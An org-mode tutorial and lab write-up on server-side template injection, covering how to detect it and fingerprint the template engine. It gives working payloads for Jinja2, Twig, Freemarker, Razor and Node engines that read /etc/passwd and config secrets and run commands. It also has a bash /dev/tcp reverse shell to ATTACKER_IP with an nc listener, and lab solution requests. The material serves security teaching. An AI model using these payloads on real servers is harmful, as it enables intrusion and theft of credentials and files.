 #+title: Server Side Template Injection
#+author: gabriel

* intro
Server-Side Template Injection (SSTI) is a web security vulnerability that occurs when an attacker can inject malicious code into a template engine used on the server side

A Template Engine is a common tool in software development. Its primary purpose is to combine data and a template to generate dynamic content.

Popular template engines include Jinja2 and Mako in the Python world; Twig and Smarty in PHP; and Freemarker and Velocity in Java.

The SSTI vulnerability arises because these engines can perform not only simple variable substitution but also more complex logical operations, such as loops, conditional statements, and even function calls.

*remote code execution* ->
This is the most dangerous outcome. An attacker can execute arbitrary commands on the server, gaining full control over it.

*sensitive data disclosure* ->
The attacker can read sensitive files on the server (like /etc/passwd), database connection strings, API keys, or application source code.

*server-side request forgery (SSRF)* ->
The attacker can use the vulnerable server as a proxy to send requests to other servers or services within the internal network.

*denial of service (DoS)* ->
The attacker can inject code that forces the template engine into an infinite loop or consumes excessive resources, causing the application or server to become unavailable.

* detecion and identification of the vulnerability
Detecting a Server-Side Template Injection (SSTI) vulnerability requires a systematic approach.

The process usually begins by injecting a payload containing a simple mathematical operation to check if the server processes the expression.

If the server executes the mathematical expression and returns the result in the response, it is a strong indication of an SSTI vulnerability.

The most reliable way to detect SSTI is to send a payload containing special characters used in template syntax ($, {, }, %, <, >) and observe how the application responds.

*example* ->
#+begin_src javascript
GET /profile?name={{7*7}} HTTP/1.1
Host: vulnerable-site.com
...
#+end_src

If response 49, vulnerability are confirmed

* identifying the template engine
After detecting the vulnerability, the most crucial step is to identify which template engine is being used, as each engine has its own syntax and exploitation techniques.

- Send {{7*7}}. If the response is 49, it's likely Twig or Jinja2. If the response is {{7*7}}, go to Step 2.
- Send ${7*7}. If the response is 49, it's likely Freemarker. If the response is ${7*7}, go to Step 3.
- Send <%= 7*7 %>. If the response is 49, it's likely Ruby (ERB) based.

[[./imgs/ssti.png]]

| Payload | Expected Result | Potential Engine(s)
| {{7*'7'}} | 49 | Twig
| {{7*'7'}} | 7777777 | Jinja2
| {{'a'.toUpperCase()}} | A | Jinja2 (Mako, Twig, Nunjucks)
| ${7*7} | 49 | Freemarker
| <#assign x="7*7">${x} | 49 | Freemarker
| @{7*7} | 49 | Razor (.NET)
| @(7*7) | 49 | Razor (.NET)
| #{7*7} | 49 | Java (JSF)
| *{{7*7}}* | *49* | Handlebars
| {{ this.getClass() }} | Java object name | Java (General)
| <%= 7 * 7 %> | 49 | Ruby (ERB)

** identifying jinja2
#+begin_src python
GET /profile?name={{7*'7'}} HTTP/1.1
Host: vulnerable-site.com
...
#+end_src

*response* ->
#+begin_src python
HTTP/1.1 200 OK
...

<h1>Welcome, 7777777!</h1>
#+end_src

This response indicates that the engine is most likely Jinja2 (or a similar Python engine). If the engine were Twig, it would have responded with an error to this request because Twig does not allow multiplication between a string and an integer.

In Jinja2, expressions like {{ self }} or in Twig, {{ _self }}, can provide access to the current template object and its associated attributes.
#+begin_src python
GET /profile?name={{self}} HTTP/1.1
Host: vulnerable-site.com
...
#+end_src

*response* ->
#+begin_src python
HTTP/1.1 200 OK
...

<h1>Welcome, <TemplateReference {'config': <Config {'SECRET_KEY': 's3cr3t_valu3', 'DATABASE_URI': '...'} >, 'request': <Request 'http://vulnerable-site.com/profile?name=...'>, ...} >!</h1>
#+end_src

In this response, we see an object named config and sensitive information within it, such as SECRET_KEY.

* where to look for SSTI vulns
SSTI vulnerabilities can be found anywhere user input is included in a server-side template. Common places to check include:

*url parameters* ->
Query strings in GET requests (?param=value).

*POST data* ->
Data submitted via forms (e.g., username, comment, search fields).

*HTTP Headers* ->
Headers like User-Agent, Referer, and X-Forwarded-For might be processed for logging or analytics.

*Cookies* ->
Cookie values used for personalization, such as welcome_message.

*file uploads* ->
The names of uploaded files might be used in a templated "successfully uploaded" message.

* accessing sensitive information
After inspecting the context, we can directly read sensitive information by accessing the attributes and methods of the discovered objects.

 Let's use the config object we discovered in the previous example.

#+begin_src python
GET /profile?name={{config.SECRET_KEY}} HTTP/1.1
Host: vulnerable-site.com
...
#+end_src

*response* ->
#+begin_src python
HTTP/1.1 200 OK
...

<h1>Welcome, s3cr3t_valu3!</h1>
#+end_src

This method can be used to leak API keys, database passwords, secret salt values, and other configuration secrets.

* calling object methods
Template engines may allow not only accessing object attributes but also calling their methods. This significantly expands the scope of the vulnerability.

For example, if there is a user object and it has a method like getPassword(), we can call it.

#+begin_src python
GET /profile?name={{user.getPassword()}} HTTP/1.1
Host: vulnerable-site.com
...
#+end_src

* escaping the sandbox and reading files
More complex exploits aim to escape the sandbox environment created by the template engine for security.

The sandbox is designed to prevent access to dangerous functions like os.system. However, in many template engines, there are ways to bypass this sandbox

In Python-based template engines (like Jinja2), this is usually done by climbing up Python's object model hierarchy. The goal is to reach the fundamental Python built-in functions.

The following payload can be used in Jinja2 to escape the sandbox and read the /etc/passwd file on the server:

:  {{ self.__init__.__globals__['__builtins__']['open']('/etc/passwd').read() }}

#+begin_src python
GET /profile?name={{ self.__init__.__globals__['__builtins__']['open']('/etc/passwd').read() }} HTTP/1.1
Host: vulnerable-site.com
...
#+end_src

* escalating to RCE
The most dangerous consequence of an SSTI vulnerability is achieving Remote Code Execution (RCE), which allows an attacker to run arbitrary commands on the server.

** RCE in jinja2 envs
Achieving RCE in Python-based template engines typically involves accessing dangerous functions like __import__ or eval through the __builtins__ module.

One of the most common methods is to import the os module and use its popen() or system() functions.

: {{ self.__init__.__globals__['__builtins__']['__import__']('os').popen('id').read() }}

#+begin_src python
GET /profile?name={{ self.__init__.__globals__['__builtins__']['__import__']('os').popen('id').read() }} HTTP/1.1
Host: vulnerable-site.com
...
#+end_src

** php (twig) envs
The PHP-based template engine Twig has a fairly secure sandbox by default. However, developers may sometimes make dangerous functions like registerUndefinedFilterCallback accessible within templates or misconfigure the environment.

If PHP functions such as exec, system, or passthru are directly or indirectly accessible, it is possible to achieve Remote Code Execution (RCE).

: {{ ['id']|filter('system') }}

#+begin_src python
GET /profile?name={{ ['id']|filter('system') }} HTTP/1.1
Host: vulnerable-site.com
...
#+end_src

The following example assumes that the passthru function is already registered as a filter named passthru. In this case, the passthru filter directly invokes PHPs passthru() function.
#+begin_src python
GET /profile?name={{ "ls -la"|passthru }} HTTP/1.1
Host: vulnerable-site.com
...
#+end_src

chieving RCE in Twig heavily depends on how the Twig environment is configured and is generally harder compared to Jinja2.

** java (freemarker) envs
Freemarker provides a path to RCE when dangerous objects like Execute can be accessed.
: <#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id") }

This payload creates a new object from the freemarker.template.utility.Execute class and assigns it to the ex variable. It then uses this object to run the id command.

** .NET (Razor) envs
The Razor template engine can directly execute C# code, making command execution quite straightforward.
: @{ System.Diagnostics.Process.Start("cmd.exe","/c whoami"); }

This payload uses .NET's Process.Start method to execute the whoami command.

** NodeJS (Plug/Jade) envs
NodeJS-based template engines can allow RCE by accessing NodeJS's global process object.

: #{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}

This payload loads the child_process module to execute cat /etc/passwd synchronously and outputs the result.

** reverse shell
Once RCE access is achieved, attackers often aim to get a more stable and interactive command-line session via a reverse shell. This allows the vulnerable server to connect back to an attacker-controlled machine and open a shell session.

: nc -lvp 4444

The attacker sends a payload to make the target server connect back to their machine.

: bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1

This payload can be embedded into the RCE technique seen earlier:
#+begin_src python
{{ ['bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1']|filter('system') }}
#+end_src

When executed, the vulnerable server will connect to the attacker's machine on port 4444, giving the attacker shell access via the nc listener.

* machine lab

*payload to solve* ->
:  {{ self.__init__.__globals__['__builtins__']['__import__']('os').popen('cat /etc/passwd').read() }}

#+begin_src python
POST /create_invoice HTTP/1.1
Host: invoicepanel.hv
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Origin: http://invoicepanel.hv
Connection: keep-alive
Referer: http://invoicepanel.hv/create_invoice
Upgrade-Insecure-Requests: 1
Priority: u=0, i

name=%7B%7B+7+*+7+%7D%7D&address=%20%7b%7b%20self.__init__.__globals__%5b'__builtins__'%5d%5b'__import__'%5d('os').popen('cat%20%2fhome%2fsecret.txt').read()%20%7d%7d&items=%7B%7B+7+*+7+%7D%7D&total=2
#+end_src

* basic SSTI
This lab contains a Server-Side Template Injection (SSTI) vulnerability in a PHP-based web application that uses the Twig template engine.

To complete the lab, exploit the SSTI vulnerability in the search box to access the contents of the config.php file.

What is the database password in config.php?

*first payload* ->
: {{ ['whoami']|map('system')|join }}

*find the config.php file*
: {{ ['find / -type f -iname "config.php" -ls 2>/dev/null']|map('system')|join }}
